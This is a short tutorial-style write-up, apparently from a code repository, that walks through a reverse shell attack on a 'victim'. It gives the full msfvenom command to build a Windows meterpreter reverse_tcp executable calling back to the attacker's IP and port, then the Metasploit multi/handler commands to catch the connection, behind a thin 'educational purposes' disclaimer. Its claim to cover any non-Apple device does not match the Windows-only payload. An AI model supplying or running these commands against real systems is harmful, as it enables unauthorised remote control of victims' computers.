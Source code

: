 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	`use exploit/multi/handler`


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	`set payload windows/meterpreter/reverse_tcp`


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	`set LHOST (YOUR IP)`
	`set LPORT 5555`


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	`exploit`

